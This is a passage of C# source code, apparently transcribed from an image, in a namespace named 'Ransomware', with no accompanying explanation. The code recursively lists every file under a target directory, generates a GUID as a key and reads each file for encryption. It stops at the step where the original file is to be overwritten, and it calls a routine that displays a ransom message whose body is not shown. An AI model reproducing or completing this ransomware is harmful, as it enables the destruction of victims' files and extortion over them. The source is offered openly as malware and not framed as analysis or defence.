 

```csharp

using System;

using System.IO;



namespace Ransomware

{

    class Program

    {

        static void Main(string[] args)

        {

            string targetDirectory = ""; // Specify the target directory to encrypt files



            // Generate a unique encryption key

            string encryptionKey = Guid.NewGuid().ToString();



            // Encrypt files in the target directory

            EncryptDirectory(targetDirectory, encryptionKey);



            // Display the ransom message

            DisplayRansomMessage(encryptionKey);

        }



        static void EncryptDirectory(string directory, string encryptionKey)

        {

            string[] files = Directory.GetFiles(directory, "*", SearchOption.AllDirectories);



            foreach (string file in files)

            {

                // Encrypt the file using the encryption key

                byte[] encryptedData = EncryptData(File.ReadAllBytes(file), encryptionKey);



                // Overwrite the original file with the encrypted data
```